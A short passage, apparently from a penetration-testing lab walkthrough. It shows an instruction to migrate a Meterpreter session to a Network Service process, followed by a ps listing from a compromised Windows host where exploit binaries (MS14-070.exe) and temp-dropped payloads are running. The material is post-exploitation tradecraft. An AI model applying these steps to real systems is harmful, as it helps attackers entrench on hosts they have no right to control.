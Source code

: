 <br />
Run ps to get a list of the processes and migrate to a process that is owned by Networ Service user.

{% raw %}
```sh
meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System
 272   4     smss.exe
 320   272   csrss.exe
 324   1064  cidaemon.exe
 344   272   winlogon.exe
 392   344   services.exe
 404   344   lsass.exe
 584   392   svchost.exe
 672   392   svchost.exe
 732   392   svchost.exe
 748   1064  cidaemon.exe
 752   392   svchost.exe
 788   392   svchost.exe
 900   1064  cidaemon.exe
 924   392   spoolsv.exe
 952   392   msdtc.exe
 1064  392   cisvc.exe
 1112  392   svchost.exe
 1168  392   inetinfo.exe
 1204  392   svchost.exe
 1308  392   VGAuthService.exe
 1380  392   vmtoolsd.exe
 1388  1764  cmd.exe            x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\cmd.exe
 1480  392   svchost.exe
 1588  392   svchost.exe
 1712  1388  MS14-070.exe       x86   0        NT AUTHORITY\NETWORK SERVICE
 1764  2040  svchost.exe        x86   0                                      C:\WINDOWS\Temp\radF7B0F.tmp\svchost.exe
 1768  392   dllhost.exe
 1936  392   alg.exe
 1956  2976  MS14-070.exe       x86   0        NT AUTHORITY\NETWORK SERVICE
 1964  584   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
 2040  1480  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 2108  1956  cmd.exe            x86   0                                      c:\windows\system32\cmd.exe
 2112  584   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 2252  1712  cmd.exe            x86   0                                      c:\windows\system32\cmd.exe
 2376  2040  svchost.exe        x86   0                                      C:\WINDOWS\Temp\radEE1F2.tmp\svchost.exe
 2404  584   wmiprvse.exe
 2964  2040  svchost.exe        x86   0                                      C:\WINDOWS\Temp\rad09BBC.tmp\svchost.exe
 2976  2964  cmd.exe            x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\cmd.exe

```